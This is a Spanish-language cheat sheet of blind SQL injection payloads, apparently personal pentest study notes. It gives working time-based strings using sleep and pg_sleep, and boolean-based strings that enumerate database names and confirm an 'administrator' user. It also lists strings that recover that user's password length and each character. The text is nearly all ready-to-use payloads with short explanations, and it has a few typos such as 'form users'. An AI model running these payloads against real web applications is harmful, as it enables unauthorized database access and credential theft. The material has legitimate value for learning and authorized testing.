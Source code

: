 ## Blind Time 

```bash 
# Con un 'sleep' podemos suponer que la inyeccion es de tipo 'Blind' en MYSQL

❯ ' and sleep(5)-- -                                  # Haremos que tarde en responder la web 5 segundos
❯ ' or sleep(5)-- -                                   # Haremos que tarde en responder la web 5 segundos

❯ and (select sleep(5) from <table_name> where substring(database(),1,1)='p' limit 0,1) 
# Tardara 5 segundos si la primer letra de la primer DB es igual a 'p'
	# limit 0,1 = Comparar con la primer DB

❯ ' || pg_sleep(5) -- -                               # Inyeccion de tiempo para DB PostgreSQL
```

## Inyecciones Blind con respuesta condicional 

-   **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)
Cuando estas en una web a ciegas, tenemos dos formas de hacerlo, por **Tiempo** o **Boolean**.

```bash 
# Esto funciona cuando hay un error visual en la pagina web 

❯ ' and substr((Consulta), Inicio, longitud))=''                          # Forma de usar el substr
	# Longitud = Los caracteres que vamos a extraer
	# Inicio = Es la posicion inicial del caracter a comparar 
	# Consulta = Es la peticion que vamos a hacer

❯ ' and substring((select schema_name from information_schema.schemata limit 0,1),1,1)='A'      # Bases MYSQL
	# Donde 0 indica la primer base de datos y es el valor que ira variando, esto dependiendo de las bases de datos que existan
	# El segundo '1' es la posicion de la letra en cada palabra y este valor ira variando para ir avanzando a las sig. posiciones de la palabra
	# 'A' es la letra a la que queremos igualar la consulta 
```

```bash 
# Encontrar el usuario de la tabla conocida 

# Si el usuario de la tabla 'users' se llama 'administrator' devuelve a, por lo tanto a=a = True
❯ ' and (select 'a' form users where username='administrator')='a'-- -

#  Confirmar cada caracter del usuario 'administrator' en la tabla 'users', el valor despues del username ira variando al momento que vayamos encontrando cada letra. 
❯ ' and (select substring(username,1,1) from users where username='administrator')='a' -- -  
❯ ' and (select substring(username,2,1) from users where username='administrator')='d' -- -


# Conocer la longitud de la passwd. Si la longitud de la password es mayor a 5 y el usuario de llama 'administrator' de la tabla 'users'devuelve una 'a', por lo tanto a=a = True
❯ ' and (select 'a' from users where username='administrator' and length(password)>5)='a'-- -
	# Podemos ir variando el numero hasta dar con la longitid (>,<,<=,=,>=)
	

# Obtener cada caracter de la password, del usuario 'adminnistrator' en la tabla 'users'. Si la primer letra de la password es la 'a' entonces nos dara un a=a = True, el valor despues del username ira variando al momento que vayamos encontrando cada letra. 
❯ ' and (select substring(password,1,1) from users where username='administrator')='a' -- - 
❯ ' and (select substring(password,2,1) from users where username='administrator')='b' -- - 
```
